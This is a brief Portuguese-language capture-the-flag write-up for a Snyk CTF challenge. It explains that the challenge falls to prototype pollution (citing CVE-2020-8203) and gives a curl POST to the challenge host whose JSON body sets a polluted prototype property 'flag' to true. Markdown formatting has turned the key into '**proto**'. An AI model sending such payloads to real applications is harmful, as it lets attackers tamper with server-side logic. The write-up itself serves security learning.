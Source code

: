 ## Resolução

Resolução desse CTF e bem simples, ele nos mostra como se aproveitar de uma falha
chamada Prototype Pollution https://www.cve.org/CVERecord?id=CVE-2020-8203.

Pra resolver basta fazer uma requisição post com o objeto **proto**

Ex:
curl --location 'http://invisible-ink.c.ctf-snyk.io/echo' \
 --header 'Content-Type: application/json' \
 --data '
{
"**proto**": {
"flag":true
}
}'
